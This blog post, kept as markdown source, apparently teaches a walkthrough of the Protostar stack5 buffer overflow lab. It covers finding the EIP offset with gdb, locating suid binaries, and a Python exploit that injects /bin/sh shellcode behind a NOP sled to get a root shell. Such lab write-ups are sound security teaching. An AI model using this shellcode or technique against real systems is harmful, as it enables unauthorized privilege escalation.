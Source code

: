 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Shellcode Injection and Local Privilege Escalation - protostar stack5
categories: binary-exploitation
image: binary-exploitation/BOF5/0.png
---
```


<hr>
### Introduction
#### Hey I'm back with another Buffer Overflow article and today we are going to do a really interesting exploit , Today we will finally escalate privileges using a vulnerable suid binary (you can know more about that by reading the [first buffer overflow article](/binary-exploitation/bof1/)) , I will also cover some interesting topics to fully understand this exploit. This is also the most realistic exploit so far. All the previous exploits wanted us to change a variable , execute a function .. stuff that are more like CTF but this time we have a realistic situation , Without wasting more time let's just jump right in.
#### Read the [previous articles](/categories) first , if you haven't done yet.
![](/images/binary-exploitation/BOF5/0.png)
<hr>
### ./Stack5
#### We have the source like all the previous challenges but this time it's actually not important.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### It just takes our input and stores it in the buffer , it doesn't even tell us about the buffer size. What about `char buffer[64];` ?  like [stack4](/binary-exploitation/bof4/) if we tried 64 chars it won't even crash. with that being said let's start.
#### As always we will start by finding out if the binary vulnerable or not (yea we already know that but it's an important enumeration step)
`python -c "print 'A' * 100" | ./stack5`
![](/images/binary-exploitation/BOF5/1.png)
#### Segmentation fault. So it crashes before 100 chars , next step is to know where exactly does it crash. We will use metasploit `pattern_create` and `pattern_offset` , I explained how does this work in [stack3](/binary-exploitation/bof3)
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF5/2.png)
#### Then we will run gdb and create a break point at `main()` , `run` the program after the break point we make it continue then pass our pattern
`break main`
<br>
`run`
<br>
`c`
![](/images/binary-exploitation/BOF5/3.png)
#### It crashes at `0x63413563` , now we will use `pattern_offset`
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF5/4.png)
#### And we get exact match at offset 76. As I said before we will exploit this binary to get a root shell , but how to know if it's a suid binary or not ? we can simply use `find` to know that
`find /opt/protostar/bin/ -perm -4000 | grep stack5`
![](/images/binary-exploitation/BOF5/5.png)
#### And we get `/opt/protostar/bin/stack5` , if it wasn't a suid binary we wouldn't get any output. If you are just searching for suid binaries you can remove the `grep` command and it will list all suid binaries in the specified directory.
<br>
<hr>
### Fun with gdb , finding EIP 
#### Now let's run gdb again and start getting useful information. Before we start I have to say that the memory addresses may differ , so mine won't be the same as yours. Last time we have overwritten the EIP address with the address of `win()` function . This time we don't have a function to execute ,we have to find the address of the EIP and make it point to our "evil input" (shellcode), I will explain in a moment.
#### We will set the disassembly flavor to intel
`set disassembly-flavor intel`
#### Then we will disassemble the main function
`disassemble main`
![](/images/binary-exploitation/BOF5/6.png)
#### By looking at that we can identify the best place to set our break point , and it's gonna be before the `leave` instruction , `leave` is right before the `return` instruction , next to `leave` we see the address `0x080483d9` so we will type :
`break *0x080483d9`
![](/images/binary-exploitation/BOF5/7.png)
#### Then we will run the program and pass any input , many A's is always good 
![](/images/binary-exploitation/BOF5/8.png)
#### It will execute and stop at the breakpoint , by typing `info frame` we can get the EIP address
`info frame`
![](/images/binary-exploitation/BOF5/9.png)
#### The last 2 lines show saved registers : eip at `0xbffff77c`
<br>
<hr>
### Another way to get the buffer size
#### Let's take a break and take a quick look at another way to get the buffer size , I wanted to show this quickly because we have already done 50 % of it ..
#### Metasploit is cool but what if we don't have metasploit in some situation ? We can do it manually by calculating the distance between the buffer start address and the EIP address , We have already got the EIP address so let's get the start of the buffer.
#### If we type `x/24wx $esp` it will show us (`x/`) 24 (`24wx`) words at the top of the stack (`$esp`).
`x/24wx $esp`
![](/images/binary-exploitation/BOF5/10.png)
#### At the second line we see this address `0xbffff730` and it holds values of `0x41414141` and we already know that 41 is the hex of "A" which was our input to the program so we know that this address is where the buffer starts. We know that the buffer comes first then the EIP so the EIP's address is greater than the buffer's address. We will substract them from each other:
`p/d 0xbffff77c - 0xbffff730`
![](/images/binary-exploitation/BOF5/11.png)
#### And we get 76 , the same result we got using metasploit. That was another practical way to find the buffer's size.
<br>
<hr>
### Idea of the exploit
#### before we build our exploit let's just understand the idea of the exploit. we will fill the buffer with "A" as always , we will reach the EIP and overwrite it with a new address that points to our shell code (4 bytes after), then we will add something called NOP (No Operation) , then finally the shellcode. Let's breakdown everything.
<br>
<hr>
### ShellCode
#### So what's a shellcode ? Simply it's a piece of code ("written in hex in our situation") that we use as a payload to execute something . `/bin/sh` for example. And this binary is suid ... so if we execute shellcode that executes `/bin/sh` with the binary we will get a root shell.
#### You can get shellcodes from [shell-storm](http://shell-storm.org/shellcode/) or from [exploit-db](https://www.exploit-db.com/) , of course there are a lot of other resources , I'm just giving examples.
#### This is the [shellcode](https://www.exploit-db.com/exploits/13357) we are going to use for this challenge :
```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
#### This shellcode executes `/bin/sh`
<br>
<hr>
### NOP (No Operation)
#### Basically no operation is used to make sure that our exploit doesn't fail , because we won't always point to the right address , so we add stuff that doesn't do anything and we point to them , Then when the program executes it will reach those NOPs and keeps executing them (does nothing) until it reaches the shellcode.
<br>
<hr>
### Building the exploit
#### In the last challenges a single python print statement solved it. This time it will be a mess so we will create a small exploit with python.
#### First thing we will import a module called struct , I will explain why in a moment.
`import struct`
#### Then we will create a variable the holds the padding (the chars to fill the buffer)
`pad = "\x41" * 76`
#### After it fills the buffer it will hit the EIP , we need the new EIP address that we will assign , as I said above we need it to be the address of the following instruction (4 bytes after the original EIP address) so it will be `0xbffff77c + 4` , google can simply give you the answer :D . it will be `0xbffff780` . We will add that value to a variable but remember we need it in reverse , That's why struct is important. if you do `import struct;struct.pack("I" , 0xbffff780)` from the python interpreter it will print `\x80\xf7\xff\xbf` , it makes life easier :D
`EIP = struct.pack("I", 0xbffff780)`
#### Then comes our shellcode
`shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`
#### Last thing is the NOP , it can be anything , so 100 chars will be good
`NOP = "\x90" * 100`
#### Ok our exploit is ready , we just need to print out the final payload so :
`print pad + EIP + NOP + shellcode`
#### Let's take a look at the script :
```
import struct
pad = "\x41" * 76
EIP = struct.pack("I", 0xbffff780)
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 100
print pad + EIP + NOP + shellcode
```
![](/images/binary-exploitation/BOF5/12.png)
<hr>
### Applying the exploit
#### Now it's show time ! let's test it out.
` python /tmp/stack5.py | ./stack5`
![](/images/binary-exploitation/BOF5/13.png)
#### And we got a root shell ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources @Ahm3d_H3sham
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Buffer Overflow Practical Examples , Exploiting EIP - protostar stack4](/binary-exploitation/bof4/)
<hr>
